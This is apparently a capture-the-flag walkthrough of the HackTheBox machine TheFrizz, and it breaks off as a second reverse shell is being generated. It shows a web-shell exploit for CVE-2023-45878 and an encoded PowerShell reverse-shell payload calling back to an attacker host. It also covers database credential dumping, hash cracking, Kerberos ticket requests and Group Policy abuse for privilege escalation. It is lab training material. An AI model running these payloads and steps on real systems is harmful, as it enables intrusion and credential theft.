


# Synopsis
TheFrizz is a medium-difficulty Windows machine featuring a web application showcasing Walkerville
Elementary School and a Gibbon CMS instance. The Gibbon-LMS instance is susceptible to unauthenticated
arbitrary file write (CVE-2023-45878), which is used to write a PHP shell to the web application and gain
access to the target. After gaining access to the system, a database settings file containing credentials to
access MySQL includes a hash and salt for the user f.frizzle that can be cracked. After cracking the
password, we authenticate to the target using SSH with GSSAPI/Kerberos. We request a TGT, which is then
used to authenticate via Kerberos authentication. A deleted 7Zip archive is discovered in the fiona user's
recycling bin which is extracted revealing a WAPT setup and includes a configuration file with base64-
encoded credentials used to authenticate as the M.Schoolbus user. M.Schoolbus is a member of the
Group Policy Creator Owners , which allows them to create GPOs within the domain, which is leveraged
to escalate privileges to NT Authority\System .

## Skills required
Windows Fundamentals
Basic Research Skills
## Skills learned
Password Cracking
Exploiting CVEs
Exploiting GPOs

## NMAP

Let's run an Nmap scan to discover any open ports on the remote host.
```bash
sudo nmap -sC -sV  10.129.68.104  --open 
[sudo] password for kali: 
Starting Nmap 7.95SVN ( https://nmap.org ) at 2025-11-07 04:23 UTC
Nmap scan report for 10.129.68.104
Host is up (0.022s latency).
Not shown: 988 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-07 11:23:48Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FRIZZDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m59s
| smb2-time: 
|   date: 2025-11-07T11:23:54
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.85 seconds


```

The Nmap scan shows a web server listening on port 80 with the domain name of frizzdc.frizz.htb and
SSH on port 22 and Kerberos on port 88 . Let's add frizzdc.frizz.htb to our /etc/hosts file and begin
further enumeration
```bash
echo '10.129.68.104  frizzdc.frizz.htb frizz.htb' | sudo tee -a /etc/hosts >/dev/null
```

## HTTP
Accessing port 80 reveals a web application for Walkerville Elementary School , which shows the
school's offerings and includes a staff login.


This page offers no useful content; the only option available is a **Staff Login** link located in the upper right corner.



Clicking on the **Staff Login** redirects to a login page, but we currently do not have valid credentials to proceed with testing. When clicking on Staff Login , we are redirected to a Gibbon-LMS instance, which includes a notice about
why Gibbon-LMS is in use.
The Gibbon-LMS instance includes a version number on the page's footer of v25.0.0 


Searching online for vulnerabilities around this version shows an unauthenticated Arbitrary File Write
vulnerability that can be leveraged for remote code execution, CVE-2023-45878. We find the disclosure that
explains the vulnerable component. Searching on GitHub for exploits, we discovered this exploit, allowing
us to write files to the target. Let's clone the repo locally

```bash
sudo git clone https://github.com/davidzzo23/CVE-2023-45878.git    

```

We can verify that the target is vulnerable with the following command:

```bash
python3 CVE-2023-45878.py -t frizzdc.frizz.htb -c "whoami"
[+] Uploading web shell as ohjjxldw.php...
[+] Upload successful.
[+] Executing command on: http://frizzdc.frizz.htb/Gibbon-LMS/ohjjxldw.php?cmd=whoami
[+] Command output:
frizz\w.webservice
```

So, let's first start a hoaxshell.py.
```bash
(myenv)─(kali㉿kali)-[/opt/impacket/examples/hoaxshell]
└─$  python  hoaxshell.py -s 10.10.16.4 -p 9999 

    ┬ ┬ ┌─┐ ┌─┐ ─┐ ┬ ┌─┐ ┬ ┬ ┌─┐ ┬   ┬  
    ├─┤ │ │ ├─┤ ┌┴┬┘ └─┐ ├─┤ ├┤  │   │                                                                                                                                                       
    ┴ ┴ └─┘ ┴ ┴ ┴ └─ └─┘ ┴ ┴ └─┘ ┴─┘ ┴─┘                                                                                                                                                     
                           by t3l3machus                                                                                                                                                     

[Info] Generating reverse shell payload...
powershell -e JABzAD0AJwAxADAALgAxADAALgAxADYALgA0ADoAOQA5ADkAOQAnADsAJABpAD0AJwA2ADcAZgBiAGQAZAA0ADQALQA3ADAAMABlAGUAZgA2ADYALQAwAGUAMwA4ADgAYgAwADAAJwA7ACQAcAA9ACcAaAB0AHQAcAA6AC8ALwAnADsAJAB2AD0ASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwAgAC0AVQByAGkAIAAkAHAAJABzAC8ANgA3AGYAYgBkAGQANAA0ACAALQBIAGUAYQBkAGUAcgBzACAAQAB7ACIAWAAtADYAMAAxAGIALQA3ADcAZABkACIAPQAkAGkAfQA7AHcAaABpAGwAZQAgACgAJAB0AHIAdQBlACkAewAkAGMAPQAoAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQBzAGUAQgBhAHMAaQBjAFAAYQByAHMAaQBuAGcAIAAtAFUAcgBpACAAJABwACQAcwAvADcAMAAwAGUAZQBmADYANgAgAC0ASABlAGEAZABlAHIAcwAgAEAAewAiAFgALQA2ADAAMQBiAC0ANwA3AGQAZAAiAD0AJABpAH0AKQAuAEMAbwBuAHQAZQBuAHQAOwBpAGYAIAAoACQAYwAgAC0AbgBlACAAJwBOAG8AbgBlACcAKQAgAHsAJAByAD0AaQBlAHgAIAAkAGMAIAAtAEUAcgByAG8AcgBBAGMAdABpAG8AbgAgAFMAdABvAHAAIAAtAEUAcgByAG8AcgBWAGEAcgBpAGEAYgBsAGUAIABlADsAJAByAD0ATwB1AHQALQBTAHQAcgBpAG4AZwAgAC0ASQBuAHAAdQB0AE8AYgBqAGUAYwB0ACAAJAByADsAJAB0AD0ASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACQAcAAkAHMALwAwAGUAMwA4ADgAYgAwADAAIAAtAE0AZQB0AGgAbwBkACAAUABPAFMAVAAgAC0ASABlAGEAZABlAHIAcwAgAEAAewAiAFgALQA2ADAAMQBiAC0ANwA3AGQAZAAiAD0AJABpAH0AIAAtAEIAbwBkAHkAIAAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAkAGUAKwAkAHIAKQAgAC0AagBvAGkAbgAgACcAIAAnACkAfQAgAHMAbABlAGUAcAAgADAALgA4AH0A                                                                                                                                  
[Info] Type "help" to get a list of the available prompt commands.
[Info] Http Server started on port 9999.
[Important] Awaiting payload execution to initiate shell session...
[Shell] Payload execution verified!
[Shell] Stabilizing command prompt...
```

Then we supply the encoded payload to trigger a reverse shell.

```bash
python3 CVE-2023-45878.py -t frizzdc.frizz.htb -c "powershell -e JABzAD0AJwAxADAALgAxADAALgAxADYALgA0ADoAOQA5ADkAOQAnADsAJABpAD0AJwA2ADcAZgBiAGQAZAA0ADQALQA3ADAAMABlAGUAZgA2ADYALQAwAGUAMwA4ADgAYgAwADAAJwA7ACQAcAA9ACcAaAB0AHQAcAA6AC8ALwAnADsAJAB2AD0ASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwAgAC0AVQByAGkAIAAkAHAAJABzAC8ANgA3AGYAYgBkAGQANAA0ACAALQBIAGUAYQBkAGUAcgBzACAAQAB7ACIAWAAtADYAMAAxAGIALQA3ADcAZABkACIAPQAkAGkAfQA7AHcAaABpAGwAZQAgACgAJAB0AHIAdQBlACkAewAkAGMAPQAoAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQBzAGUAQgBhAHMAaQBjAFAAYQByAHMAaQBuAGcAIAAtAFUAcgBpACAAJABwACQAcwAvADcAMAAwAGUAZQBmADYANgAgAC0ASABlAGEAZABlAHIAcwAgAEAAewAiAFgALQA2ADAAMQBiAC0ANwA3AGQAZAAiAD0AJABpAH0AKQAuAEMAbwBuAHQAZQBuAHQAOwBpAGYAIAAoACQAYwAgAC0AbgBlACAAJwBOAG8AbgBlACcAKQAgAHsAJAByAD0AaQBlAHgAIAAkAGMAIAAtAEUAcgByAG8AcgBBAGMAdABpAG8AbgAgAFMAdABvAHAAIAAtAEUAcgByAG8AcgBWAGEAcgBpAGEAYgBsAGUAIABlADsAJAByAD0ATwB1AHQALQBTAHQAcgBpAG4AZwAgAC0ASQBuAHAAdQB0AE8AYgBqAGUAYwB0ACAAJAByADsAJAB0AD0ASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACQAcAAkAHMALwAwAGUAMwA4ADgAYgAwADAAIAAtAE0AZQB0AGgAbwBkACAAUABPAFMAVAAgAC0ASABlAGEAZABlAHIAcwAgAEAAewAiAFgALQA2ADAAMQBiAC0ANwA3AGQAZAAiAD0AJABpAH0AIAAtAEIAbwBkAHkAIAAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAkAGUAKwAkAHIAKQAgAC0AagBvAGkAbgAgACcAIAAnACkAfQAgAHMAbABlAGUAcAAgADAALgA4AH0A" 
```

After checking our listener, we notice we obtained a reverse shell.
```bash
[Shell] Payload execution verified!
[Shell] Stabilizing command prompt...

PS C:\xampp\htdocs\Gibbon-LMS > 
```

Reading the contents of the file discloses database credentials.

```bash
S C:\xampp\htdocs\Gibbon-LMS > type config.php
<?php
/*                                                                              
$databaseServer = 'localhost';                                                                                                                                                               
$databaseUsername = 'MrGibbonsDB';                                                                                                                                                           
$databasePassword = 'MisterGibbs!Parrot!?1';                                                                                                                                                 
$databaseName = 'gibbon';                                                                             
```

Using these credentials, we can leverage the mysql.exe executable in the XAMPP installation to enumerate
the database.

```bash
 c:\xampp\mysql\bin\mysql.exe -uMrGibbonsDB -pMisterGibbs!Parrot!?1 -e 'show databases;'

Database
gibbon                                                                                                                                                                                       
information_schema                                                                                                                                                                           
test    

```

We can see there is a database called gibbon . Let's enumerate that.

```bash
c:\xampp\mysql\bin\mysql.exe -uMrGibbonsDB -pMisterGibbs!Parrot!?1 gibbon -e 'show tables;'

gibbonpermission                                                                                                                                                                             
gibbonperson                                                                                                                                                                                 
gibbonpersonaldocument                                                                                                                                                                       
gibbonpersonaldocumenttype                                                                                                                                                                   
gibbonpersonmedical
```

We extract any user password hashes along with relevant data.

```bash
 c:\xampp\mysql\bin\mysql.exe -uMrGibbonsDB -pMisterGibbs!Parrot!?1 gibbon -e 'select * from gibbonperson;'
```

```output
gibbonPersonID  title   surname firstName       preferredName   officialName    nameInCharacters        gender  username        passwordStrong  passwordStrongSalt      passwordForceReset  status   canLogin        gibbonRoleIDPrimary     gibbonRoleIDAll dob     email   emailAlternate  image_240       lastIPAddress   lastTimestamp   lastFailIPAddress       lastFailTimestamp   failCount        address1        address1District        address1Country address2        address2District        address2Country phone1Type      phone1CountryCode       phone1  phone3Type  phone3CountryCode        phone3  phone2Type      phone2CountryCode       phone2  phone4Type      phone4CountryCode       phone4  website languageFirst   languageSecond  languageThird   countryOfBirth       birthCertificateScan    ethnicity       religion        profession      employer        jobTitle        emergency1Name  emergency1Number1       emergency1Number2       emergency1Relationship       emergency2Name  emergency2Number1       emergency2Number2       emergency2Relationship  gibbonHouseID   studentID       dateStart       dateEnd gibbonSchoolYearIDClassOf    lastSchool      nextSchool      departureReason transport       transportNotes  calendarFeedPersonal    viewCalendarSchool      viewCalendarPersonal    viewCalendarSpaceBooking    gibbonApplicationFormID  lockerNumber    vehicleRegistration     personalBackground      messengerLastRead       privacy dayType gibbonThemeIDPersonal   gibboni18nIDPersonal    studentAgreements    googleAPIRefreshToken   microsoftAPIRefreshToken        genericAPIRefreshToken  receiveNotificationEmails       mfaSecret       mfaToken        cookieConsent   fields               
0000000001      Ms.     Frizzle Fiona   Fiona   Fiona Frizzle           Unspecified     f.frizzle       067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03        /aACFhikmNopqrRTVz2489       N       Full    Y       001     001     NULL    f.frizzle@frizz.htb     NULL    NULL    ::1     2024-10-29 09:28:59     NULL    NULL    0                                   NULL             NULL    NULL    NULL                                                    Y       Y       N       NULL                            NULL    NULL    NULL    NULL    NULL    NULLYNULL    NULL    NULL            

```

from the output, we can see a password hash and a password salt


We take those and plug them into Hashcat for cracking. For a hash and salt mode, 1420 is used as instructed here.
```bash
 .\hashcat.exe -m 1420 '067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489' rockyou.txt

```

so we are able to crack it 
```bash
ictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 2 secs

067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489:Jenni_Luvs_Magic23
```

Now that we have valid credentials, we will attempt to authenticate with the target via SSH.

```bash
ssh f.frizzle@frizzdc.frizz.htb
The authenticity of host 'frizzdc.frizz.htb (10.129.68.104)' can't be established.
ED25519 key fingerprint is SHA256:667C2ZBnjXAV13iEeKUgKhu6w5axMrhU346z2L2OE7g.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added 'frizzdc.frizz.htb' (ED25519) to the list of known hosts.
f.frizzle@frizzdc.frizz.htb: Permission denied (gssapi-with-mic,keyboard-interactive).

```


From the output, we can see that Password authentication is not allowed, and we know that Kerberos is
enabled on the target. We can attempt to authenticate after we generate a valid Kerberos ticket.
To obtain a valid Kerberos ticket, we first need to sync our time with the target, then generate an NTLM
hash using the known password to pass into Impacket 's getTGT.py script. We first use this site to
generate an NTLM hash based on the known password. Then, we install the required packages to make
authentication to SSH possible over Kerberos.

```bash
sudo apt-get install libsasl2-modules-gssapi-mit krb5-user
sudo ntpdate  frizzdc.frizz.htb
```

```bash
getTGT.py -dc-ip frizzdc.frizz.htb frizz.htb/f.frizzle:'Jenni_Luvs_Magic23'

*] Saving ticket in f.frizzle.ccache
```

Now, we need to export the Kerberos ticket, update the krb5.conf to point to the target, and attempt
authentication

```bash
export KRB5CCNAME=f.frizzle.ccache
```

I’ll use `netexec`  to generate the `krb5.conf` file:
```bash
netexec smb frizzdc.frizz.htb -u f.frizzle -p 'Jenni_Luvs_Magic23' -k --generate-krb5-file krb5.conf
```

```bash
cat krb5.conf 
[libdefaults] 
dns_lookup_kdc = false
dns_lookup_realm = false 
default_realm = FRIZZ.HTB 
[realms]
      FRIZZ.HTB = {
       kdc = frizzdc.frizz.htb
       admin_server = frizzdc.frizz.htb
       default_domain = frizz.htb 
       } 
[domain_realm]
 .frizz.htb = FRIZZ.HTB
  frizz.htb = FRIZZ.HTB
```

now we copy this

```bash
sudo cp krb5.conf /etc/krb5.conf
```

Now I can get a ticket as f.frizzle:
```bash
kinit f.frizzle 
Password for f.frizzle@FRIZZ.HTB:
klist
```


Now we can authenticate to the target via SSH and get a PowerShell session.

```bash
ssh -k f.frizzle@frizzdc.frizz.htb
```

With this shell, I can grab the user flag:

```bash
PS C:\Users\f.frizzle\Desktop> type user.txt
9e68cfbdde951e549a714269596e547f
PS C:\Users\f.frizzle\Desktop> 
```

## Privilege Escalation
Enumeration leads us to the system's user accounts and a 7-Zip archive in the recycling bin.

```bash
PS C:\> gci -force  

    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d--hs          10/29/2024  7:31 AM                $RECYCLE.BIN
d--h-           3/10/2025  3:31 PM                $WinREAgent
d--hs           7/24/2025 12:41 PM                Config.Msi
l--hs          10/29/2024  9:12 AM                Documents and Settings -> C:\Users
d----           3/10/2025  3:39 PM                inetpub
d----            5/8/2021  1:15 AM                PerfLogs
d-r--           7/24/2025 12:41 PM                Program Files
d----            5/8/2021  2:34 AM                Program Files (x86)
d--h-           2/20/2025  2:50 PM                ProgramData
d--hs          10/29/2024  9:12 AM                Recovery
d--hs          10/29/2024  7:25 AM                System Volume Information
d-r--          10/29/2024  7:31 AM                Users
d----           3/10/2025  3:41 PM                Windows
d----          10/29/2024  7:28 AM                xampp
-a-hs          10/29/2024  8:27 AM          12288 DumpStack.log.tmp


```

lets go to the directory 
```bash
PS C:\> cd '$RECYCLE.BIN'
PS C:\$RECYCLE.BIN> ls
PS C:\$RECYCLE.BIN> dir
PS C:\$RECYCLE.BIN> gci -force       

    Directory: C:\$RECYCLE.BIN

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d--hs          10/29/2024  7:31 AM                S-1-5-21-2386970044-1145388522-2932701813-1103


```

Let's recover the contents of the recycle bin and then extract them.
```bash
PS C:\$RECYCLE.BIN> cd   'S-1-5-21-2386970044-1145388522-2932701813-1103'
PS C:\$RECYCLE.BIN\S-1-5-21-2386970044-1145388522-2932701813-1103> dir

    Directory: C:\$RECYCLE.BIN\S-1-5-21-2386970044-1145388522-2932701813-1103

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a---          10/29/2024  7:31 AM            148 $IE2XMEG.7z
-a---          10/24/2024  9:16 PM       30416987 $RE2XMEG.7z

```

```bash
PS C:\Users\f.frizzle> $shell = New-Object -ComObject Shell.Application
PS C:\Users\f.frizzle> $recycleBin = $shell.Namespace(0xA)             
PS C:\Users\f.frizzle> $recycleBin.items() | Select-Object Name, Path

Name                  Path
----                  ----
wapt-backup-sunday.7z C:\$RECYCLE.BIN\S-1-5-21-2386970044-1145388522-2932701813-1103\$RE2XMEG.7z

```


```bash
$recycleBin = (New-Object -ComObject Shell.Application).NameSpace(0xA)
$items = $recycleBin.Items()  
$item = $items | Where-Object { $_.Name -eq "wapt-backup-sunday.7z" }
$documentsPath = [Environment]::GetFolderPath("Desktop") 
$documents = (New-Object -ComObject Shell.Application).NameSpace($documentsPath)
$documents.MoveHere($item)
```

```bash
PS C:\Users\f.frizzle> dir .\Desktop\

    Directory: C:\Users\f.frizzle\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar--           11/7/2025  3:22 AM             34 user.txt
-a---          10/24/2024  9:16 PM       30416987 wapt-backup-sunday.7z


PS C:\Users\f.frizzle> exit
Connection to frizzdc.frizz.htb closed.

```

Now that we have a copy of the wapt-backup-sunday.7z , we can extract its contents by using SCP to
transfer it and then extracting it to our local machine with the 7z utility. Since we have an existing SSH
session, SCP will work.

```bash
scp -P 22 f.frizzle@frizz.htb:"C:/Users/f.frizzle/Desktop/wapt-backup-sunday.7z" .
```

```bash
7z x wapt-backup-sunday.7z

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:2 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 30416987 bytes (30 MiB)

Extracting archive: wapt-backup-sunday.7z
--
Path = wapt-backup-sunday.7z
Type = 7z
Physical Size = 30416987
Headers Size = 65880
Method = ARM64 LZMA2:26 LZMA:20 BCJ2
Solid = +
Blocks = 3

Everything is Ok                                                                         

Folders: 684
Files: 5384
Size:       141187501
Compressed: 30416987
```

After extracting the contents, we use grep to search for the string password .

```bash
kali㉿kali)-[~/Downloads/TheFrizz/wapt/conf]
└─$ cat waptserver.ini                                                                                  
[options]
allow_unauthenticated_registration = True
wads_enable = True
login_on_wads = True
waptwua_enable = True
secret_key = ylPYfn9tTU9IDu9yssP2luKhjQijHKvtuxIzX9aWhPyYKtRO7tMSq5sEurdTwADJ
server_uuid = 646d0847-f8b8-41c3-95bc-51873ec9ae38
token_secret_key = 5jEKVoXmYLSpi5F7plGPB4zII5fpx0cYhGKX5QC0f7dkYpYmkeTXiFlhEJtZwuwD
wapt_password = IXN1QmNpZ0BNZWhUZWQhUgo=
clients_signing_key = C:\wapt\conf\ca-192.168.120.158.pem
clients_signing_certificate = C:\wapt\conf\ca-192.168.120.158.crt

[tftpserver]
root_dir = c:\wapt\waptserver\repository\wads\pxe
log_path = c:\wapt\log

```

We find a password. We have three possible users to use this against, but we will try M.Schoolbus since the
password reversed is as follows:
```bash
echo 'IXN1QmNpZ0BNZWhUZWQhUgo=' | base64 -d | rev
R!deTheM@gicBus!
```

First, we use the getTGT.py script from the Impacket toolkit to get a TGT . Afterward, we need to export
the new ticket and retry SSH authentication.
```bash
sudo ntpdate -u   frizzdc.frizz.htb
```

```bash
getTGT.py -dc-ip frizzdc.frizz.htb frizz.htb/m.schoolbus:'!suBcig@MehTed!R'
Impacket v0.13.0.dev0+20250528.4535.5b338613 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in m.schoolbus.ccache
```

it doesn’t work for SSH because `netexec` does not yet support Kerberos auth for SSH (there’s a [PR to add this](https://github.com/Pennyw0rth/NetExec/pull/817) currently being worked). I’m able to SSH in:
```bash
kinit m.schoolbus
Password for m.schoolbus@FRIZZ.HTB: 
```

lets ssh
```bash
ssh -k m.schoolbus@frizzdc.frizz.htb

```

Checking the output of the whoami /group command shows that this user is a part of the Group Policy
Creator Owners group, which means we can create group policies without administrative permissions

```bash
PS C:\Users\M.SchoolBus> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                            Attributes                                                     
============================================ ================ ============================================== ===============================================================
Everyone                                     Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group             
BUILTIN\Remote Management Users              Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Users                                Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization               Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group             
frizz\Desktop Admins                         Group            S-1-5-21-2386970044-1145388522-2932701813-1121 Mandatory group, Enabled by default, Enabled group             
frizz\Group Policy Creator Owners            Group            S-1-5-21-2386970044-1145388522-2932701813-520  Mandatory group, Enabled by default, Enabled group             
Authentication authority asserted identity   Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group             
frizz\Denied RODC Password Replication Group Alias            S-1-5-21-2386970044-1145388522-2932701813-572  Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\Medium Mandatory Level       Label            S-1-16-8192 

```


This group is a member of the “Group Policy Creator Owners” group:
```bash
PS C:\Users\M.SchoolBus> get-adgroup "Desktop Admins" -Properties memberOf | Select-Object -ExpandProperty memberOf
CN=Group Policy Creator Owners,CN=Users,DC=frizz,DC=htb

```

`whoami /groups` shows this as well:
```bash
PS C:\Users\M.SchoolBus> whoami /groups                                         

GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                            Attributes                                                     
============================================ ================ ============================================== ===============================================================
Everyone                                     Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group             
BUILTIN\Remote Management Users              Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Users                                Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization               Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group             
frizz\Desktop Admins                         Group            S-1-5-21-2386970044-1145388522-2932701813-1121 Mandatory group, Enabled by default, Enabled group             
frizz\Group Policy Creator Owners            Group            S-1-5-21-2386970044-1145388522-2932701813-520  Mandatory group, Enabled by default, Enabled group             
Authentication authority asserted identity   Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group             
frizz\Denied RODC Password Replication Group Alias            S-1-5-21-2386970044-1145388522-2932701813-572  Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\Medium Mandatory Level       Label            S-1-16-8192                            

```

Now we need to download SharpGPOAbuse.exe and upload it to the target. First, use wget to download the
executable locally, then use SCP to transfer it to the target. I open a new terminal to perform the download
locally and upload to the target without interrupting my current SSH session.

```bash
wget https://github.com/byronkg/SharpGPOAbuse/releases/download/1.0/SharpGPOAbuse.exe
export KRB5CCNAME=m.schoolbus.ccache
scp -P 22 ./SharpGPOAbuse.exe m.schoolbus@frizz.htb:"C:/Users/m.schoolbus/Desktop/"SharpGPOAbuse.exe
```

`SharpGPOAbuse.exe` requires a “vulnerable” (writable) GPO. There are two GPOs on the domain:

```bash
PS C:\Users\M.SchoolBus\Desktop> Get-GPO -all                                                                              

DisplayName      : Default Domain Policy
DomainName       : frizz.htb
Owner            : frizz\Domain Admins
Id               : 31b2f340-016d-11d2-945f-00c04fb984f9
GpoStatus        : AllSettingsEnabled
Description      : 
CreationTime     : 10/29/2024 7:19:24 AM
ModificationTime : 10/29/2024 6:25:44 AM
UserVersion      : 
ComputerVersion  : 
WmiFilter        : 

DisplayName      : Default Domain Controllers Policy
DomainName       : frizz.htb
Owner            : frizz\Domain Admins
Id               : 6ac1786c-016f-11d2-945f-00c04fb984f9
GpoStatus        : AllSettingsEnabled
Description      : 
CreationTime     : 10/29/2024 7:19:24 AM
ModificationTime : 10/29/2024 6:19:24 AM
UserVersion      : 
ComputerVersion  : 
WmiFilter        : 


```

Rather than mess with these, I’ll try to create my own:
```bash
PS C:\Users\M.SchoolBus\Desktop> New-GPO -name "0xdff"                                                                                                                                       

DisplayName      : 0xdff
DomainName       : frizz.htb
Owner            : frizz\M.SchoolBus
Id               : bc841802-d5b0-4921-91a2-ffa0875551c8
GpoStatus        : AllSettingsEnabled
Description      : 
CreationTime     : 11/7/2025 7:00:39 AM  
ModificationTime : 11/7/2025 7:00:39 AM
UserVersion      : 
ComputerVersion  : 
WmiFilter        : 


```

I’ll link it to this computer:

```bash
PS C:\Users\M.SchoolBus\Desktop> New-GPLink -Name "0xdff" -target "DC=frizz,DC=htb"                                                                                                          

GpoId       : bc841802-d5b0-4921-91a2-ffa0875551c8
DisplayName : 0xdff
Enabled     : True
Enforced    : False
Target      : DC=frizz,DC=htb
Order       : 2


```

lets again create a reverse shell using hoax shell 

```bash
python  hoaxshell.py -s 10.10.16.4 -p 4444

    ┬ ┬ ┌─┐ ┌─┐ ─┐ ┬ ┌─┐ ┬ ┬ ┌─┐ ┬   ┬  
    ├─┤ │ │ ├─┤ ┌┴┬┘ └─┐ ├─┤ ├┤  │   │                                                                                                                                                       
    ┴ ┴ └─┘ ┴ ┴ ┴ └─ └─┘ ┴ ┴ └─┘ ┴─┘ ┴─┘                                                                                                                                                     
                           by t3l3machus                                                                                                                                                     

[Info] Generating reverse shell payload...
